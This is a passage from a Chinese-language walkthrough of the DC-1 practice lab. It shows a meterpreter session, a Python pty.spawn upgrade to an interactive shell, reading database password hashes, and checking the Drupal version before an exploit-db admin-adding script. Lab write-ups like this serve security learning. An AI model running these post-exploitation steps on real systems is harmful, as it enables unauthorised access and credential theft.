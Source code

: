 尝试连接一下数据库

```bash
meterpreter > mysql -u dbuser -p
```

结果一直返回

```bash
Unknown command: mysql.
```

换一下壳

```bash
输入shell
```

然后输入命令发现有问题,然后看他们说的是因为这不是交互式shell，需要获取交互式shell

使用python反弹一个交互式shell，然后我们登陆数据库

再次进入shell下，输入python命令，发现靶机已安装python 2.7.3，通过pty.spawn()获得交互式shell

```bash
meterpreter > shell
python -V
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210209170630099](靶机DC-1/image-20210209170630099.png)

可以获取到密码密文

然后先去补补功课吧

这里就直接copy师傅们的了

**方法一：**

在exploitdb中有一个针对Drupal 7版本的攻击脚本，可以增加一个admin权限的用户账号，使用此方法简便了破解admin的密码，更直接

查看Drupal版本,确定Drupal版本为7.24

```bash
cat /var/www/includes/bootstrap.inc  |  grep VERSION
```

![img](靶机DC-1/20190927163259545.png)
